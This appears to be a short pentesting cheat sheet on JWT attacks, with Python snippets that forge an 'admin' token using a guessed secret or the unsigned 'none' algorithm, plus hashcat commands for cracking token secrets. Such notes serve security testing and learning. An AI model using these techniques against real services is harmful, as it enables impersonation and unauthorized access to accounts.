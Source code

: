 # JWT token attacks

### Forging own JWT tokens

[jwt.io](https://jwt.io/)

pyjwt - python library for JWT

```python
import jwt
import time

epoch = int(time.time())
jwt_token = jwt.encode({"username":"admin", "created":epoch}, key="SECRETKEY", algorithm="HS256")
jwt_token = jwt_token.decode("UTF-8")

print(jwt_token)
```

### No signature check

Sometimes server does not check token signature. In that case, we can change token data and send modified token

```python
import jwt
import time

epoch = int(time.time())
jwt_token = jwt.encode({"username":"admin", "created":"0"}, key=None, algorithm=None)
jwt_token = jwt_token.decode("UTF-8")

print(jwt_token)
```

### Cracking JWT tokens

```
hashcat -m 16500 JWT_FILE WORDLIST
hashcat -m 16500 JWT_FILE --show
```
